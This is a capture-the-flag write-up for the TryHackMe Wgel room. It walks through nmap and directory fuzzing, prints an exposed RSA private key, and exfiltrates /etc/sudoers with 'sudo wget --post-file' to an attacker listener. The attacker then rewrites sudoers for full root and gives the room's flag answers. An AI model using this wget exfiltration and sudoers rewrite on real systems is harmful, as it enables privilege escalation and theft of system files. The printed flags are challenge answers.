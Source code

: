 ###### Can you exfiltrate the root flag?
Room: https://tryhackme.com/room/wgelctf
##

**sudo** nmap -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webpage's source code gives us a potentially username for the SSH service.
```
 <!-- Jessie don't forget to udate the webiste -->
```

**gobuster** dir -u http://xx.xx.xxx.xx -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/sitemap              (Status: 301) [Size: 314] [--> http://xx.xx.xxx.xx/sitemap/]
```

On the other hand, the sitemap directory wasn't very helpful. However, I decided to fuzz the directory more.  

**ffuf** -u http://xx.xx.xxx.xx/FUZZ -w /usr/share/wordlists/dirb/common.txt --recursion   

There is a hidden **.ssh** directory that contains a **rsa** private key.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```


By saving this to our machine, see that we can authenticate to the SSH service under the jessie user.   

**ssh** -i privatekey jessie@xx.xx.xxx.xx  

We do have acces to the wget command as sudo.  
This means we can use the command to send or get files from another servers.

We can send the content of the **/etc/sudoers** file to our attacking machine, edit the file and get the modified file on the target system.  
For this, we need to set up a netcat listener on our attacking machine.

**sudo wget** --post-file=/etc/sudoers attackerMachineIP:1234 http://attackerMachineIP:1234/  

On the netcat listener, we get the content of the file.  

```
listening on [any] 1234 ...
connect to [xx.x.x.xx] from (UNKNOWN) [xx.xx.xxx.xx] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: xx.x.x.xx:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797

#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

What we need now is to save the content under the name **sudoers** and change the line 
```
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

TO

```
jessie  ALL=(root) NOPASSWD: ALL
```

We also need to remove this part.  
```
listening on [any] 1234 ...
connect to [xx.x.x.xx] from (UNKNOWN) [xx.xx.xxx.xx] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: xx.x.x.xx:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797
```


After the file is edited, we can use **wget** on the target machine to retrieve it from our attacking machine.  

[Attacker Machine]  
**python3** -m http.server

[Target Machine]  
**cd** /etc/
**sudo wget** attackerMachineIP:8000/sudoers --output-document=sudoers

**sudo -l**
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: ALL
```

The **sudo su** command gives us root access. 

The **user** flag is at /home/jessie/Documents/user_flag.txt and is **057c67131c3d5e42dd5cd3075b198ff6**.  
The **root** flag is at /root/root_flag.txt and is **b1b968b37519ad1daa6408188649263d**.  
